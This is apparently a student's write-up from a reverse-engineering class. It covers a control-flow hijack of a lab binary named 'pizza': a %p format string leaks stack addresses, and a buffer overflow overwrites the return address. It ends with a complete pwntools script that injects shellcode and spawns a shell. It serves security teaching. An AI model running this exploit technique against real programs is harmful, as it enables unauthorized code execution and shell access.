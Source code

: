 # Control Flow Integrity Violation

The goal of this assignment is to write a python script using `pwntools` that executes the given program, leaks the stack offset, and spawns a shell. Through this exercise, we delve into the realm of control flow integrity violations, where unexpected inputs manipulate the program's execution flow, potentially leading to unauthorized access or unintended behavior.

In a previous class, we went into the concept of library injection, a method involving a loader program to run another program to load a library in a new thread. Dr. Reynolds highlighted a more direct approach to inject shellcode into vulnerable processes. This technique is based in providing unexpected input to a program, and thus altering the content of the instruction pointer register. By gaining control of the IP register, attackers gain the ability to manipulate the program's behavior at will. Although numerous methods exist to achieve this, we focused only on one: buffer overflow.

Dr. Reynolds explained that when a programmer permits writing more data into a buffer than its capacity, it leads to overwriting data higher up on the stack. This behavior typically results in undefined behavior or segmentation faults. However, attackers can exploit this vulnerability to their advantage. In a buffer overflow attack, attackers aim to overwrite the return address since it is eventually loaded into the IP register.

The approach for this assignment involves injecting shellcode directly into the buffer and ensuring that the IP register points to the beginning of this shellcode. Then later, the shellcode executes within the program, invoking functions like execve and replacing the current program with a shell accessible to the attacker.

## Requiered files and dependencies
- Install pwntools using the following commands on the terminal
  ```bash
  sudo apt-get update -y
  sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential -y
  sudo python3 -m pip install --upgrade pip -y
  sudo python3 -m pip install --upgrade pwntools -y
  ```
- Download the program we are going to take over. Victim program: [(Pizza)](https://github.com/tolvumadur/Reverse-Engineering-Class/blob/main/Spring24/Samples/binaries/pizza)
  
## Findings about the victim program: pizza
This program appears to be a simple pizza calculator/delivery app. Here's how it works:

1. The program prompts the user to input their name for the order.
2. After receiving the name input, it acknowledges the user with a greeting containing their name.
3. Then, it asks the user to specify the number of pizzas they would like to order, within the range of 1 to 10.
4. Upon receiving the number of pizzas, it confirms the order and informs the user that the pizzas will be prepared.
5. Next, it calculates the total cost of the order, including the cost of the pizzas and tax.
6. It displays the total amount to the user.
7. Finally, it requests the user to input their credit card number for payment.
8. After receiving the credit card number, it confirms the payment method and completes the transaction.

After using Ghidra to inspect the program we can see that the program is using a not very secure function that allows the user to input a format string. Dr. Reynolds mentioned that a format string such as `%p` can leak values from the stack.


## Process for building the script
We were asked by the professor to see if we were able to crash the program by running it and inputting data. So what we did was input a large number of random characters into the name field. As we gradually increased the input length, we observed the program's behavior. Upon reaching a certain threshold, the program crashed and displayed a segmentation fault error. This crash occurred because our input overflowed the buffer, thereby overwriting critical memory areas, including the return address. Consequently, the program became unable to execute further instructions, resulting in the segmentation fault error.

To achieve a succesful buffer overflow attack we need to meet three conditions:
1. We need to find out how many bytes after the beginning of the buffer are there before the return address.
2. We need to inject padding bytes plus a new return address, plus some shellcode.
3. We need to be able to predict at what address our shellcode will be so we can return to it.

To get started I ran the program using my python script with pwntools. In line 24 we are telling the program to run the pizza program. Then in lines 26 and 28 we are setting up some parameters about our proccesor and computer. Pwntools library includes a shellcode that we can use to spawn the shell, this is declared in line 35.
Then we input a format string to leak values from the stack (line 37). We run the program (line 39), recieve and print the welcome message (line 42), and then we send "our name" which in this case will be the format string to leak values (line 45). Recieve and print the Hi message that will contain the leak values (lines 47-48).

![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/dda49cd8-5609-47a6-abc4-42da58c5d0e3)    


The output will look like this:   
![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/2a0d9983-3d1b-47db-95ec-aa8df0c18061)   
If we pay close attention to the values printed, we can notice that the 3 last values are addresses from the stack (we know this because of the format).

We keep sending values from the other fields, we send a `10` for the number of pizzas, but for the credit card number we send a bunch of A's (it can be any character) to get the program to crash so that we can get a segfault error and this will generate a corefile containing information about the crash. I created a function to get stack information from the corefile of the crash, and my function prints the addresses and the values at that part, it also show us where the RSP (stack pointer) is pointing to.   

![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/daf459ad-cbda-42ae-9b0e-ca57684f1bee)    

Now that we have an idea on how the stack looks like, we can see where the RSP is pointing to (which is the return address), and at the address `0x7ffc89097ca0` we can see the beggining of the shellcode. CPU's are protected against these types of attacks, they use something called Address Space Layout Randomization (ASLR) which basically is in charge of running program on random locations every time they are run. This makes almost impossible and inpredictibale to calculate where our shellcode should be. But since we already have the values, and after running the script a couple of times, we notice that theres is always the same amount of space beetween the addresses leaked.   
![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/a81186fc-3628-459b-ad86-0978a8bd3afb)   

![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/7f5b3e0e-a9a4-4df3-aabb-1b8f5d49f0fc)
![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/110dff45-0a44-4112-8a0f-3315e2fb135d)
![image](https://github.com/horaciog1/CS479-Reverse-Engineering/assets/111658514/54c2025d-a614-4ff7-9838-4abdcfce1020)





## Buffer Overflow script

```python3
#!/usr/bin/env python3

from pwn import *

def printStack(core):
    rsp = core.rsp
    stack_before_rsp = core.read(rsp - 22 * 8, 22 * 8)  # 22 elements before RSP
    stack_after_rsp = core.read(rsp, 22 * 8)  # 22 elements after RSP

    print("\nStack:")
    for i in range(0, len(stack_before_rsp), 8):
        address = rsp - 22 * 8 + i
        value = core.read(address, 8)
        arrow = "<---------- RSP" if address == rsp else "    "  # Point to RSP
        print(f"{hex(address)}\t{value}\t\t\t\t\t\t\t\t\t{arrow}")

    for i in range(0, len(stack_after_rsp), 8):
        address = rsp + i
        value = core.read(address, 8)
        arrow = "<---------- RSP" if address == rsp else "    "  # Point to RSP
        print(f"{hex(address)}\t{value}\t\t\t\t\t\t\t\t\t{arrow}")

# Executable and Linkable Format
elf = ELF("./pizza")

context(arch='amd64', os='linux', endian='little', word_size=64)

getname_address = elf.symbols["getname"]

#print(hex(getname_address))

#print(shellcraft.amd64.linux.sh())
#exit()

shellcode = asm(shellcraft.amd64.linux.sh())



input1 = b"%p %p %p %p %p %p %p %p %p"



victim = process("./pizza")

# Recieve Welcome Message
print(str(victim.recvline(), "latin-1"))

# Send Name
victim.sendline(input1)
# Recieve stack address leak output
leak = str(victim.recvline(), "latin-1")
print(leak)

# Send numberof pizzas and recieve output
victim.sendline(b"10")
print(str(victim.recvline(), "latin-1"))

# SHELL CODE + "A"*?? + NEW RET_ADDRESS
retAddr = int(leak.split(" ")[7], 16) - 112
input2 = shellcode + b"A"*88 + retAddr.to_bytes(8, 'little')

victim.sendline(input2)
#print(str(victim.recvline(), "latin-1"))


victim.interactive()
#core = victim.corefile

#printStack(core)

# print(disasm(core.read(core.rip, 8)))
# print( core.read( core.rsp, 100))


exit()
```
